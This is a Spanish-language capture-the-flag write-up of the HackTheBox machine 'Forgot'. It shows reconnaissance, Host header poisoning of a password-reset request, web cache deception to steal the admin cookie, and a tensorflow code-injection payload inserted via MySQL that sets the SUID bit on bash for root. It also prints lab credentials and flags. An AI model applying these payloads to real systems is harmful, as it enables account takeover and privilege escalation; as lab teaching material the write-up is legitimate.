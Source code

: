 ```yaml
---
title: Forgot Writeup
author: miguel3023
date: 2022-11-19
categories: [Writeup, HTB]
tags: [Linux, CTF, Medium, Cache Deception, Sudoers, Host Attack]
image:
  path: ../../assets/img/commons/Forgot/Forgot.png
  width: 800
  height: 450 
---
```


En esta máquina veremos un "Host Header attack" para pasar un panel de login. Luego un "web cache deception" para obtener acceso como usuario no privilegiado en la web. Por último abusamos del privilegio sudoers para obtener root.

## Reconocimiento

Primeramente realizamos un escaneo con nmap para detectar los puertos abiertos

```
❯ nmap -p- -sS --min-rate 5000 --open -v -n -Pn 10.10.11.188 -oG OpenPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 00:34 -05
Initiating SYN Stealth Scan at 00:34
Scanning 10.10.11.188 [65535 ports]
Discovered open port 80/tcp on 10.10.11.188
Discovered open port 22/tcp on 10.10.11.188
Completed SYN Stealth Scan at 00:34, 13.78s elapsed (65535 total ports)
Nmap scan report for 10.10.11.188
Host is up (0.22s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Con **whatweb** podemos ver qué tecnologías emplea la web que hay en el puerto 80

```
❯ whatweb http://10.10.11.188
http://10.10.11.188 [503 Service Unavailable] Country[RESERVED][ZZ], HTML5, HTTPServer[Varnish], IP[10.10.11.188], Title[503 Backend fetch failed], UncommonHeaders[retry-after,x-varnish], Varnish, Via-Proxy[1.1 varnish (Varnish/6.2)]

```

Luego con nmap detectamos la versión y los servicios que están en los puertos que encontramos previamente abiertos

```
❯ nmap -sC -sV -p22,80 10.10.11.188 -oN Versions
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 00:55 -05
Nmap scan report for 10.10.11.188
Host is up (0.11s latency).

PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http-proxy Varnish http accelerator
|_http-title: 503 Backend fetch failed
|_http-server-header: Varnish
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ahora fuzzeamos por directorios a ver qué encontramos.

`Nota:` Nos tiene que aparecer un panel de login en la propia web, si no te aparece reinicia la máquina (me sucedió por eso lo menciono)

```
❯ wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.11.188/FUZZ

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                       
=====================================================================

000000001:   200        245 L    484 W      5186 Ch     "# directory-list-2.3-medium.txt"                                             
000000007:   200        245 L    484 W      5186 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"             
000000008:   200        245 L    484 W      5186 Ch     "# or send a letter to Creative Commons, 171 Second Street,"                  
000000003:   200        245 L    484 W      5186 Ch     "# Copyright 2007 James Fisher"                                               
000000010:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000005:   200        245 L    484 W      5186 Ch     "# This work is licensed under the Creative Commons"                          
000000014:   200        245 L    484 W      5186 Ch     "http://10.10.11.188/"                                                        
000000006:   200        245 L    484 W      5186 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this"               
000000002:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000004:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000013:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000009:   200        245 L    484 W      5186 Ch     "# Suite 300, San Francisco, California, 94105, USA."                         
000000012:   200        245 L    484 W      5186 Ch     "# on atleast 2 different hosts"                                              
000000011:   200        245 L    484 W      5186 Ch     "# Priority ordered case sensative list, where entries were found"            
000000038:   302        5 L      22 W       189 Ch      "home"                                                                        
000000053:   200        245 L    484 W      5189 Ch     "login"                                                                       
000001706:   200        252 L    498 W      5227 Ch     "forgot"                                                                      
000002357:   302        5 L      22 W       189 Ch      "tickets"                    

```
## Intrusión

En en código fuente podemos ver un usuario potencial

```html
<!-- Q1 release fix by robert-dev-145092 -->
```
Nos montamos un servidor con python por el puerto 80

```
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ahora en la ruta **/forgot** que encontramos anteriormente colocamos el usuario que vimos. Realizamos la petición y capturamos la petición con Burpsuite y cambiamos el HOST por nuestra ip y el puerto donde tenemos el servidor

```
GET /forgot?username=robert-dev-145092 HTTP/1.1
Host: 10.10.16.47:80
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.10.11.188/forgot
```
Ahora interceptamos la petición de **/reset** colocando el token que nos dio de manera urlencodeada para luego iniciar sesión como **robert-dev-145092**. (Si no te funciona el token a la primera, intenta nuevamente con otro token que te da si te quedaste en escucha con python)

![Burpsuite]({{ 'assets/img/commons/Forgot/Burp.png' | relative_url }}){: .center-image }
_Petición por Burp_

Una vez obtenido el acceso a la web, vemos que en el apartado **/escalate** podemos enviarle un link para que el admin haga click en él.También si vemos el código fuente en el apartado de escalate podemos ver una ruta **/admin_tickets** si intentamos ingresar vemos que nos dice acceso denegado. Para obtener acceso a esa ruta lo que podemos hacer es lo siguiente:


![Burpsuite]({{ 'assets/img/commons/Forgot/inexistent.png' | relative_url }}){: .center-image }
_Petición por Burp_

Una vez hemos hecho esto, colocamos en la url lo mismo que le mandamos al admin sólo que hasta **/js** porque o sino Burpsuite no nos intercepta la petición, la mandamos al repeater y allí le colocamos **/test.js** 

![Burpsuite]({{ 'assets/img/commons/Forgot/cambiamos.png' | relative_url }}){: .center-image }
_Petición por Burp_


Veremos que nos dice "404 not found", esto es porque ahora simplemente lo hay que hacer es enviarle otra vez a admin el link, pero esta vez, ponle otra **s** al final del "/test/js", quedaría tal que así "/test.jss" y esperas un poco a que admin le dé click a ese link. Una vez hecho esto, simplemente en la petición anterior, le agregas una **s**

![Burpsuite]({{ 'assets/img/commons/Forgot/cookie.png' | relative_url }}){: .center-image }
_Petición por Burp_

Listo, ya hemos hecho un "cache deception attack" y capturado la cookie de admin en el lado de la respuesta, ahora sólo resta acceder a "/admin_tickets". Simplemente intercepta con Burpsuite y cambias la cookie de session de tu usuario actual por la de admin. y veremos las credenciales del usuario por ssh

![Burpsuite]({{ 'assets/img/commons/Forgot/credenciales.png' | relative_url }}){: .center-image }
_Credenciales_

## Privesc

Nos conectamos por ssh

```
-bash-5.0$ whoami
diego
-bash-5.0$ cat user.txt 
4929615d53c0dcd5c4e69e18d1665e38
-bash-5.0$
```
Podemos ver un script "bot.py" y que se conecta a la base de datos

```python
-bash-5.0$ cat bot.py 
   # Fetch Links
  conn = mysql.connector.connect(host="localhost",database="app",user="diego",password="dCb#1!x0%gjq")
  cursor = conn.cursor()
  cursor.execute('select * from forgot')
  r = cursor.fetchall() 
```

Si hacemos sudo -l podemos ver que tenemos un script que podemos ejecutar de manera privilegiada, si lo vemos nos muestra lo siguiente:

```python
 # Grab links
 conn = mysql.connector.connect(host='localhost',database='app',user='diego',password='dCb#1!x0%gjq')
 cursor = conn.cursor()
 cursor.execute('select reason from escalate')
 r = [i[0] for i in cursor.fetchall()]
 conn.close()
 data=[]
 for i in r:
         data.append(i)
 Xnew = getVec(data)
```

También podemos una librería **tensorflow** y si buscamos encontramos cómo vulnerarlo para [este](https://github.com/advisories/GHSA-75c9-jrh4-79mc)

```python
def assessData(i):
    score = ((.175*ynew1[i])+(.15*ynew2[i])+(.05*ynew3[i])+(.075*ynew4[i])+(.25*ynew5[i])+(.3*ynew6[i]))
    if score >= .5:
        try:
                preprocess_input_exprs_arg_string(data[i],safe=False)
        except:
                pass
```

Lo que hace es verificar patrones maliciosos en la base de datos. Si saturamos esto, podemos inyectar código para que se ejecute. Nos conectamos a la base de datos y ejecutamos lo siguiente:

```
mysql> insert into escalate values ("1","1","1",'test=exec("""\nimport os\nos.system("chmod +s /usr/bin/bash")""")');

```

Ahora hacemos **bash -p y obtenemos root**

```
-bash-5.0$ bash -p
bash-5.0# cat /root/root.txt 
d41b9cbb909802752553be9dd7c82720
bash-5.0#
```
